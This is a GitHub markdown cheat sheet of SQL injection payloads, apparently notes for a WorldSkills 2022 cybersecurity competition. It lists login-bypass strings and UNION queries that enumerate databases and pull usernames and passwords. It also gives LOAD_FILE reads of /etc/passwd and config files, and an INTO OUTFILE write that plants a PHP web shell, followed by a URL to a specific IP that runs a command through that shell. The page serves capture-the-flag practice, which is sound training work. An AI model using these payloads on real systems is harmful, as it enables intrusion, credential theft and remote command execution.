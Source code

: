 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# SQL Injection
Creared by Christopher Fitzsimons

## SQL Injection Queries
```sql
admin' OR '1'='1''  
admin'-- '  
admin'-- -'  
admin'# '  
admin')-- '  
' or 1=1 limit 1 -- -  

' order by 1-- -  
cn' UNION select 1,2,3,4-- -  
cn' UNION select 1,@@version,3,4-- -  
cn' UNION SELECT 1,table_schema,table_name,4 FROM information_schema.tables-- -  
cn' UNION SELECT 1,username,3,4 FROM users-- -  
cn' UNION SELECT 1,username,password,4 FROM users-- -  
cn' UNION SELECT * FROM my_database.users;  
cn' UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA;  
cn' UNION select 1,database(),2,3-- -  
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -  
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -  
cn' UNION select 1,page,3,4 FROM dev.pages-- -  
cn' UNION select 1,username,password,4 FROM dev.credentials-- -  

SELECT LOAD_FILE('/etc/passwd');  
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -  
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -  
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -  

cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -  
cn' UNION SELECT 1,username,password,4 from users INTO OUTFILE '/tmp/credentials'-- -  
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';  
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -  
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -  
http://167.172.56.232:30248/shell.php?0=cat%20../flag.txt  
```

## SQL Payloads
Payload URL Encoded  
'	%27  
"	%22  
\#	%23  
;	%3B  
)	%29  
